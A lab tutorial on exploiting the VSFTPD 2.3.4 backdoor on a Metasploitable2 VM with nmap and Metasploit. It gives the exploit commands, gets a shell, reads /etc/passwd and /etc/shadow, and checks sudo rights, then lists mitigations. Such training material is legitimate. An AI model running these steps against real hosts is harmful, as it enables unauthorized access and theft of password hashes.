 # Exploiting a Vulnerable FTP Server

## Introduction
This practice example demonstrates how to exploit a vulnerable FTP server using Metasploit. We will target an outdated VSFTPD (Very Secure FTP Daemon) version 2.3.4, which contains a backdoor vulnerability that allows unauthorized remote access.

## Table of Contents
- [Setup the Target](#setup-the-target)
- [Scanning for Vulnerabilities](#scanning-for-vulnerabilities)
- [Exploitation using Metasploit](#exploitation-using-metasploit)
- [Gaining a Shell](#gaining-a-shell)
- [Post-Exploitation](#post-exploitation)
- [Mitigation Measures](#mitigation-measures)
- [Conclusion](#conclusion)

## Setup the Target
Before beginning, ensure that you have a vulnerable FTP server running. You can use Metasploitable2, which includes VSFTPD 2.3.4 as a vulnerable service.

1. Download and install Metasploitable2.
2. Start the virtual machine and check the IP address.
   ```bash
   ifconfig eth0
   ```
   Suppose the target IP is `192.168.1.100`.

## Scanning for Vulnerabilities
To identify vulnerabilities in the FTP service, use Nmap:

```bash
nmap -sV -p 21 --script=ftp-vsftpd-backdoor 192.168.1.100
```

### Explanation:
- `-sV`: Detects service versions.
- `-p 21`: Scans the FTP port.
- `--script=ftp-vsftpd-backdoor`: Checks for the VSFTPD backdoor vulnerability.

If the scan confirms the vulnerability, proceed with exploitation.

## Exploitation using Metasploit
Launch Metasploit and use the exploit module for VSFTPD:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
set RPORT 21
exploit
```

### Explanation:
- `use exploit/unix/ftp/vsftpd_234_backdoor`: Loads the exploit for VSFTPD 2.3.4.
- `set RHOSTS 192.168.1.100`: Specifies the target IP.
- `set RPORT 21`: Sets the target FTP port.
- `exploit`: Executes the exploit.

## Gaining a Shell
If successful, the exploit grants an interactive shell:

```bash
whoami
uname -a
```

### Explanation:
- `whoami`: Checks the user privileges.
- `uname -a`: Displays system information.

At this point, you have gained unauthorized access to the system.

## Post-Exploitation
After gaining access, perform post-exploitation tasks:

### Extracting System Information
```bash
cat /etc/passwd
cat /etc/shadow
```

### Privilege Escalation
Search for possible privilege escalation vectors:
```bash
sudo -l
```

## Mitigation Measures
To prevent this attack:
1. **Update VSFTPD** to a secure version.
2. **Disable anonymous FTP access.**
3. **Use strong authentication mechanisms.**
4. **Monitor logs** for unauthorized access attempts.
5. **Use firewalls** to restrict external access to FTP.

## Conclusion
This practice example demonstrated how to exploit a vulnerable VSFTPD FTP server using Metasploit. We performed reconnaissance, executed an exploit, gained unauthorized access, and explored post-exploitation techniques. Always ensure proper security measures to mitigate such vulnerabilities.

_For more learning, refer to [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)._
